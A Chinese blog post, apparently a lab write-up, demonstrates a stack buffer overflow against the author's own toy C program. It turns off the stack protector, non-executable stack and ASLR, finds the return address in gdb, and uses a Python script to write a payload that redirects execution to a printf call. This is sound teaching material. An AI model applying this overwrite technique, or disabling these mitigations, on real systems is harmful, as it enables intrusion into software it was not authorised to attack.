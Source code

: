 ```yaml
---
layout: post
title: 缓冲区溢出攻击实验
subtitle: 缓冲区溢出攻击实验
date: 2020-08-05
author: nightmare-man
tags: 计算机组成原理 demo/lab
---
```

# 缓冲区溢出攻击实验

### 0x00 示例代码

```c
#include <stdio.h>
void mgets(char* buf){
	char* temp=buf;
	char c;
	while((c=getchar())!='\n'&&c!=EOF){
		*temp++=c;
	}
	*temp++='\0';
	return;
}
int main(){
	char buf[8];
	mgets(buf);
	printf("This string can't be displayed normally!");
	return 0;
}
```



### 0x01 代码分析

​	main函数里分配了8个字节的buf缓冲区，然后调用mgets过程，往缓冲区里写入用户的输入。但是mgets里没有对写入缓冲区的大小进行限制，导致写入越界。

​	由于buf是局部变量，分配在栈里，而栈是向下扩展的，所以buf在	上一个栈帧里记录调用main函数后返回的地址	的下方，然后随着不断往缓冲区buf里写数据，会向上覆盖该返回地址。导致main函数返回时跳转到攻击者写入的地址，改变了程序的行为。

### 0x02 具体操作

​	gcc默认开启**栈破坏检测机制**，并且**默认设置了栈不可执行**，来防止程序的缓冲区溢出漏洞，因此为了实验我们应该关闭。

​	使用下面命令编译上面的代码

```c
gcc -fno-stack-protector -z execstack 1.c -o 1.out
```

​	生成可执行文件1.out

​	我们要写入的新的跳转地址，因此最好栈和代码的位置不变动，这样我们才能知道要跳转的地址，因此要**关闭操作系统的ASLR(adress  space layout randominaztion)**。

​	使用下面命令关闭ASLR

```c
sudo echo 0 > /proc/sys/kernel/randomize_va_space
```

​	使用 objdump -d 1.out 命令 观察main函数的栈帧分配:

![image-20200805171144958](/assets/img/image-20200805171144958.png)

​	可以看到，先push 保存了%rbp，然后给buf实际分配了16字节。那么从buf[0]到上一个栈帧最后写入的返回地址之间有24字节空间，我们需要先输入16字节，填满给buf分配的空间，再写入8字节，作为%rbp的值，需要注意的是，这个值不能任意写，因为最后main里的leave指令会把%rbp传送到%rsp,因此这个值应该能被访问，最好和新的返回地址一致，然后再写入8字节作为新的返回地址，最后输入EOF或者 换行符0x0a作为输入结束。

​	在这里，我让新地址为printf的语句。为了知道printf语句运行时的地址，我们使用gdb调试一下。

​	用gdb 1.out对其进行调试，然后输入break main，对main函数下断点，再用run指令，此时在main函数断下，再用disas，反汇编当前函数的代码。

![image-20200805172304047](/assets/img/image-20200805172304047.png)

​	可以发现，和objdump -d 的地址一致都是0x00000000004005df。那么我们需要输入的数据如下：

![image-20200805172459672](/assets/img/image-20200805172459672.png)

​	一共33字节16+8+8+1，前面16字节随意，中间8字节是%rbp，最后8字节是新地址我们填写0x00000000004005df,注意字节序，最后一个是换行符，表示输入结束。

​	我们当然不可能直接执行1.out再从终端输入，因为有些数值对应的ascii码无法从键盘打出，因此我们用python生成二进制文件，最后用重定向输入。

​	python代码如下：

```python
import struct
list_d=[0x31,0x32,0x33,0x34,0x35,0x36,0x37,0x38,0x39,0x30,0x31,0x32,0x33,0x34,0x35,0x36,0xdf,0x05,0x40,0x00,0x00,0x00,0x00,0x00,0xdf,0x05,0x40,0x00,0x00,0x00,0x00,0x00,0x0a]
with open('data.bin','wb') as fp:
        for x in list_d:
                a=struct.pack('B',x)
                fp.write(a)
print('done')
```

​	重定向输入命令执行1.out

```c
./1.out < data.bin
```

​	提示segmentation fault

![image-20200805173414161](/assets/img/image-20200805173414161.png)

​	但是用gdb调试执行，发现已经成功，在mian函数执行retq时，到了0x4005df，之所以segmentation fault是因为还会继续运行到main函数里的leave和retq，但是这个时候栈里的数据可能不对了。

​	但是我们的实验目的已经达到了，完成了更改程序的行为（虽然结果不直观）。